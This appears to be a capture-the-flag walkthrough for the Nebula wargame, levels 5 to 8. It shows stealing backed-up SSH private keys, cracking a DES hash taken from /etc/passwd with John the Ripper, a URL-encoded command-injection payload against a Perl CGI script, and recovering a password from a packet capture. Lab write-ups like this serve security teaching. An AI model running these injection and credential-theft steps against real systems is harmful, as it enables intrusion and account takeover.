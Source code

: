 ## Level 5
The hint here is to check flag05 home directory, looking for week permissions. Indeed, the hidden _.backup_ directory is readable by everyone, and contains the RSA public and private keys of flag05 user. We extract the archive into ~/.ssh,  and because we have the private key, we will be able to login through ssh as flag05:
```bash
level05@nebula:~$ tar xvf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ssh flag05@localhost
```
This [article](https://www.debian.org/devel/passwordlessssh) describes key0based SSH authentication, and warns about leaving the passphrase empty: __*anybody getting your private key (~/.ssh/id_rsa) will be able to connect to the remote host*__.

## Level 6
For this level, _The flag06 account credentials came from a legacy unix system_. We see that the password for flag06 user is *__DES encrypted, and stored unshadowed directly__* in the /etc/passwd file:
```bash
level06@nebula:~$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

[John the Ripper](http://www.openwall.com/john/) decrypts it instantaneously:
```
~ echo flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh > passwd
~ john.exe passwd
Loaded 1 password hash (Traditional DES [128/128 BS SSE2])
hello            (flag06)
```

## Level 7
This level presents a vulnerable Perl script. The vulnerability lies in using the input __*Host*__ variable unsanitized, and can be exploited through an injection similar to level2:
```perl
@output = `ping -c 3 $host 2>&1`;
```

```bash
level07@nebula:/home/flag07$ wget http://localhost:7007/index.cgi?Host=%3b%20getflag%20%3E%20/tmp/out07
level07@nebula:/home/flag07$ cat /tmp/out07
You have successfully executed getflag on a target account
```
[URL encoding](http://meyerweb.com/eric/tools/dencoder/) is used above to pass the **_;_**, **_>_** and blank characters encoded.

## Level 8
This presents a small capture to be analysed.  It proves to be a clear-text login to a Linux box, stored in the _capture.pcap_ file. We extract the stream (_Follow TCP stream_ option  in Wireshark), and open it with a hex editor. Then we see the password as __backdoor[\x7F][\x7F][\x7F]00Rm8[\x7F]ate__. 0x7F is the ASCII code of delete key. So the reconstructed password for flag08 user is: **backd00Rmate**.
